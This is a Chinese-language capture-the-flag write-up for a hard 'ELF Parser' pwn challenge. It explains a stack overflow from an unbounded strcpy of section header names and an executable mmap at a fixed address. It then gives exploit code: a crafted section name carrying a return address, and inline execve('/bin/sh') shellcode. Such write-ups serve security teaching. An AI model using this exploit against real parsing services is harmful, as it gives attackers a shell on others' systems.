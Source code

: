 # ELF Parser

**Author:** Xia0o0o0o

**Difficulty:** Hard

**Category:** Pwn

## 题目描述

在学习了 ELF 文件格式后，你的舍友写了一个 ELF 文件解析器并且把它部署到了服务器上。

“虽然你能随便上传一个 ELF，但是你没有办法随意在我的服务器上执行它，所以这很安全！”

可是真的是这样吗？

## 题目解析

**暴露端口：`70`**

```c
strcpy(v7, (const char *)(*(unsigned int *)(v4 + ((__int64)(int)i << 6)) + v3));
```

注意拷贝 `Shdr.name` 的时候，并没有限制长度，导致栈溢出，`strcpy()` 会在 `\x00` 处停止，再注意 `mmap()` 的时候，设置了 `PROT_EXEC`，并且第一个参数给出了 map 的地址 `0x800000`，所以可以把 shellcode 写在自己上传的 ELF 里，Return oriented programming 到 map 的地址，得到 shell。

```c
int __attribute__((section("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x2d\x11\x80"))) main() {
    __asm__ __volatile__
    (
     "movq $0x0068732f6e69622f, %rdx \n"
     "pushq %rdx                     \n"
     "movq $0x3b, %rax               \n"
     "movq %rsp, %rdi                \n"
     "movq $0, %rdx                  \n"
     "movq $0, %rsi                  \n"
     "syscall                        \n"
     "pop %rdi                       \n"
     "pop %rdx                       \n"
    );
}
```
